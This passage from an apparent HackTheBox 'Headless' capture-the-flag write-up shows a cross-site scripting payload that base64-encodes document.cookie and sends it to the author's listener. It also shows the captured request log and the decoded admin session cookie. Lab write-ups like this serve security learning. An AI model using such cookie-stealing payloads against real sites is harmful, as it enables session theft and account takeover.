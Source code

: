 
My web server on port `80` did received a callback from the machine

![](/assets/obsidian/a161ead573264410cadec1022f912cdf.png)

Next, steal cookies from the user

- Payload :

```bash
<img src=x onerror=this.src="http://10.10.14.39/c/"+btoa(document.cookie);>
```

![](/assets/obsidian/193a18056915b58853a9988555ec882a.png)

```bash
[2024-04-15 15:37:12] 10.10.11.8:35582 "GET /c/aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 404 19
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Headless]
└─$ echo aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
